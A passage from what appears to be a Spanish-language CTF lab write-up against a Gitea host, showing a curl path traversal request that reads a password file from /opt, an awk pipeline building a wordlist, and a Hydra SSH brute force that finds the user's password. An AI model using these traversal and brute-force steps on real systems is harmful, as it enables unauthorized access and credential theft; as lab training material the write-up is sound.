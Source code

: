 Luego de algunas pruebas con rutas logré encontrar el archivo en cuestión en el directorio `/opt`

~~~ bash
curl -s "http://gitea.dl/download?filename=../../../../../../../opt/info.txt" | head 
user001:Passw0rd!23 - Juan abrió su laptop y suspiró. Hoy era el día en que finalmente accedería a la base de datos.
user002:Qwerty@567 - Marta había elegido su contraseña basándose en su teclado, una decisión que lamentaría más tarde.
user003:Secure#Pass1 - Cuando Miguel configuró su clave, pensó que era invulnerable. No sabía lo que le esperaba.
user004:H4ckM3Plz! - Los foros de hackers estaban llenos de desafíos, y Pedro decidió probar con una cuenta de prueba.
user005:Random*Key9 - Sofía tenía la costumbre de escribir sus contraseñas en post-its, hasta que un día desaparecieron.
user006:UltraSafe99$ - "Esta vez seré más cuidadoso", se prometió Andrés mientras ingresaba su nueva clave.
user007:TopSecret!! - Lucía nunca compartía su contraseña, ni siquiera con sus amigos más cercanos.
user008:MyP@ssw0rd22 - Julián pensó que usar números en lugar de letras lo haría más seguro. Se equivocó.
user009:S3cur3MePls# - La empresa exigía contraseñas seguras, pero Carlos siempre encontraba una forma de simplificarlas.
user010:Admin123! - Un ataque de fuerza bruta reveló que la cuenta del administrador tenía una clave predecible.
~~~

Parece ser que todas estas son posibles contraseñas para algún usuario, como sabemos que solo existe `designer` y no `admin` en la máquina, probablemente sean de éste usuario en concreto

Dado que son muchas posibles contraseña, podemos extraer rápidamente esta información con el siguiente comando **(importante aplicar espacios en el parámetro `-F` de `awk`, de lo contrario nos dejará las contraseñas con un espacio al final, sino agregar `| tr -d ' '` al final del comando de forma alternativa)**

~~~ bash
curl "http://gitea.dl/download?filename=../../../../../../../opt/info.txt" -sL | awk -F ' - ' '{print $1}' | awk -F ':' '{print $2}' > passes.txt
~~~


## SSH Credentials Brute Forcing

Como sabemos que `designer` es un usuario a nivel de sistema, usaremos este listado de contraseñas que hemos generado para hacer fuerza bruta contra este usuario 

~~~ bash
hydra -l designer -P passes.txt ssh://gitea.dl        
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-09 23:56:52
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 50 login tries (l:1/p:50), ~4 tries per task
[DATA] attacking ssh://gitea.dl:22/
[22][ssh] host: gitea.dl   login: designer   password: SuperSecurePassword123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
~~~

